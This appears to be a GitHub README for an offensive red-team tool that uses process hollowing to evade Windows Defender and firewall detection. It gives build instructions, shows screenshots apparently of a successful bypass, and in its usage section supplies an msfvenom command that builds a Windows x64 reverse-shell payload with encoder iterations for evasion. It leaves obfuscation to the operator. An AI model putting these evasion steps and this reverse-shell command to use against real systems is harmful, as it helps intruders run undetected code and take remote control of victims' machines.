 # Process-Hollowing-RedTeamOps
## Red Team Operation's Defense Evasion Technique for executing without raising flags on Target System.

### Credit of Images goes to MalwareBytes :relaxed:
![hollowing1-1_](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/dd3cbd07-ebf0-447e-82f7-9b71384f9b00) 


We have both x86 and x64 bit release as you want. **we strongly suggest x64-but release if you're bit confused about compiling manually**

We suggest to use directly compiled executables as in some situations it depends on your compiler.


**If you wish to Compile x64 bit relese on Kali with cross-compiler - x86_64-w64-mingw32-gcc** 

**For 32-bit - Mingw for Windows**

# **Made with ♥️ in :india:!!** 

## Tools Resources and skills used 

1. ChatGPT for required Windows API 
2. Process-Hollowing Technique working
3. Deep-imagination 
4. Error-handling
5. Programming Skills
6. Time
7. Defeating Faliures

## Demo

![windows-hollow](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/cbc55b11-94c1-4416-a200-43f76abc9baf)

![kali](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/4a258dcc-0f40-4ec7-9422-1422a97686c9)

![win-update](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/a9421032-566d-49f0-a0a0-9857395a5624)


![firewall](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/96c3d3cd-6708-4640-83f0-e44c4a642907)


![windef-2](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/ca002758-e1e4-43b3-be87-7a59242f80f5)

![windows-def](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/dc8b587a-10f4-4408-8203-539640b50cde)

# How to use

***1. Generate a .bin file only - You can use C2 servers and metasploit too***

Example - msfvenom -p windows/x64/shell_reverse_tcp LHOST<IP> LPORT<PORT> -f raw -i <iterations as you want for evasion> -e <encoder you want to use> > shell.bin - **x64-Bit**
  
 ***2. Obfuscation is mainly your work to do as per your operations. The other one's? - WE'LL HANDLE!!!***
  
  

